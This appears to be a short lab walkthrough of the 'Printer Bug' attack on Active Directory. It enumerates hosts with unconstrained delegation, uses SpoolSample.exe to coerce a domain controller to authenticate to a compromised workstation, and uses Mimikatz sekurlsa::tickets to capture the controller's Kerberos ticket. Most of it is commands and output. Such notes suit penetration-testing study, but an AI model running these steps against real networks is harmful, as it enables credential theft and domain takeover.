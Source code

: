 	PS C:\Users\testuser\Desktop\share>


# Printer Bug

there is 2 device :

pc-win10 unconstrained delegation enabled and compromised

odin - Domain controller

we will force DC to authenticate pc-win10 and will extract TGT from memory

checking delegation rights

	PS C:\Users\Administrator> Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properti
	es trustedfordelegation,serviceprincipalname,description


	Description          :
	DistinguishedName    : CN=PC-WIN10,OU=dirtyComputers,DC=valhalla,DC=local
	DNSHostName          : pc-win10.valhalla.local
	Enabled              : True
	Name                 : PC-WIN10
	ObjectClass          : computer
	ObjectGUID           : fdeb115b-fa2a-4948-b65a-f44eae75ad1c
	SamAccountName       : PC-WIN10$
	serviceprincipalname : {TERMSRV/PC-WIN10, TERMSRV/pc-win10.valhalla.local, RestrictedKrbHost/PC-WIN10,
						   HOST/PC-WIN10...}
	SID                  : S-1-5-21-3410397846-649609989-2919355437-2124
	TrustedForDelegation : True
	UserPrincipalName    :
	
	
Check in memory TGT with, there is no TGT in memory

	sekurlsa::tickets /export

Force DC to authenticate pc-win10

	PS C:\Users\testuser\Desktop> .\SpoolSample.exe odin pc-win10
	[+] Converted DLL to shellcode
	[+] Executing RDI
	[+] Calling exported function
	TargetServer: \\odin, CaptureServer: \\pc-win10
	Attempted printer notification and received an invalid handle. The coerced authentication probably worked!


Check TGT in memory

	sekurlsa::tickets
	Authentication Id : 0 ; 879231 (00000000:000d6a7f)
	Session           : Network from 0
	User Name         : ODIN$
	Domain            : VALHALLA
	Logon Server      : (null)
	Logon Time        : 25/08/2021 19:44:42
	SID               : S-1-5-21-3410397846-649609989-2919355437-1001
